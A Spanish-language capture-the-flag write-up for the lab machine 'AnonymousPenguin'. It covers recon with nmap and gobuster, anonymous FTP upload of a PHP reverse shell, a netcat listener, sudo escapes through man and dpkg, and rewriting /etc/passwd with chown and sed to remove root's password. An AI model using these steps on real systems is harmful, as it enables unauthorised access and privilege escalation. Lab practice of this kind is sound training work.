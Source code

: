 Maquina: AnonymousPenguin

Autor: El Pinguino de Mario

Dificultad: Facil

![Captura de pantalla 2024-11-17 173629](https://github.com/user-attachments/assets/bb3832f7-8436-4ad9-86a6-dfeae131209d)

ping 172.17.0.2 -c 1

![Captura de pantalla 2024-11-17 174935](https://github.com/user-attachments/assets/1a1cef1d-d84a-4a08-920a-ede040545c47)

nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2

Vemos que esta abierto el puerto 21 FTP y el puerto 80 HTTP

![Captura de pantalla 2024-11-17 174954](https://github.com/user-attachments/assets/10d3cc6a-f8c6-40f5-b1d7-d772867f388d)

Si accedemos a la pagina web vemos esto

![Captura de pantalla 2024-11-17 175019](https://github.com/user-attachments/assets/bfa86771-bcca-424e-b529-9c17c99f6f9a)

Usamos Gobuster para hacer un reconocimiento web y ver que directorios podemos encontrar

gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php

![Captura de pantalla 2024-11-17 175048](https://github.com/user-attachments/assets/75f31781-4e80-4297-9fe8-e4e1bc2473d9)

Vemos que hay un directorio upload pero no hay nada dentro vamos a intentar subir desde el ftp una reverse shell a la carpeta upload y asi conseguir acceso

ftp 172.17.0.2

Accedemos como anonymous sin contraseña

![Captura de pantalla 2024-11-17 175332](https://github.com/user-attachments/assets/fc0e815f-d347-48d2-bd28-a80437e354aa)

dir

![Captura de pantalla 2024-11-17 175342](https://github.com/user-attachments/assets/5fa08e40-b356-4bbf-8c0c-a34959a8e5fb)

En el directorio web también aparace upload

En este directorio vamos a subir un php reverse shell

https://www.revshells.com/

(PHP PentestMonkey, bash, IP y Port)

![Captura de pantalla 2024-11-17 182611](https://github.com/user-attachments/assets/ceaa9204-68e0-4017-8c31-bbdab6fe633a)

copiamos, creamos un file reverseshell.php y pegamos

![Captura de pantalla 2024-11-17 180122](https://github.com/user-attachments/assets/953e467d-5600-4aaa-b9b5-fc19217764b6)

Entramos al directorio upload y subimos el archivo php creado

cd upload

put reverseshell.php

![Captura de pantalla 2024-11-17 180711](https://github.com/user-attachments/assets/810b7915-fbae-49e3-8c77-8a1f9060c0a6)

Nos ponemos en escucha con Netcat

nc -lvnp 443

![Captura de pantalla 2024-11-17 180801](https://github.com/user-attachments/assets/11982bc5-8df1-47fa-a32b-068a189362ab)

http://172.17.0.2/upload/reverseshell.php

![Captura de pantalla 2024-11-17 182247](https://github.com/user-attachments/assets/ea3dd30f-89a3-4591-9e56-8701c09ffdcd)

Tenemos acceso

![Captura de pantalla 2024-11-17 182258](https://github.com/user-attachments/assets/ec0a446a-3dfb-4632-bdb3-48c52fdbfb03)

Tratamiento TTY

script /dev/null -c bash

cntrl + c

![Captura de pantalla 2024-11-17 184322](https://github.com/user-attachments/assets/7b5c4726-964e-4b21-9136-457546bb2335)

stty raw -echo; fg  

reset xterm 

export SHELL=bash

export TERM=xterm

stty size

stty rows 24 columns 80

![Captura de pantalla 2024-11-17 184751](https://github.com/user-attachments/assets/81fba1b2-9690-4b1c-9f39-ed0d71de283e)

Miramos que permisos tiene

sudo -l 

vemos que podemos ejecutar man como Pingu

![Captura de pantalla 2024-11-17 182826](https://github.com/user-attachments/assets/5ec3b28b-bfb8-490f-a30b-581c317c7f27)

sudo -u pingu /usr/bin/man man

!/bin/sh
whoami

![Captura de pantalla 2024-11-17 185046](https://github.com/user-attachments/assets/89eb8c97-227a-4e19-a17d-547821bb279c)

sudo -l 

vemos que podemos ejecutar nmap y dpkg como el usuario gladys

![Captura de pantalla 2024-11-17 185103](https://github.com/user-attachments/assets/b7eb5949-6174-4dd4-bc04-722732c7c7b6)

sudo -u gladys /usr/bin/dpkg -l

!/bin/sh
whoami

![Captura de pantalla 2024-11-17 185202](https://github.com/user-attachments/assets/bec5f284-c935-4196-b600-72d4ab3b8f96)

sudo -l 
vemos que podemos ejecutar chown como root

![Captura de pantalla 2024-11-17 185224](https://github.com/user-attachments/assets/ded1c9b3-718b-4108-8eaf-556c7e4a2af4)

cambiamos el propietario de /etc/passwd

sudo /usr/bin/chown $(id -un):$(id -gn) /etc/passwd

Con sed hacemos que elimine la X que tiene root para que la contraseña desaparezca y creamos un archivo temporal en tmp

sed 's/^root:[^:]*:/root::/' /etc/passwd > /tmp/passwd.tmp

copiamos el tmp donde esta el original para que lo sobreescriba

cp /tmp/passwd.tmp /etc/passwd

su root

whoami

![Captura de pantalla 2024-11-17 185337](https://github.com/user-attachments/assets/fb79d802-338e-4cb2-a084-f177e73cc087)


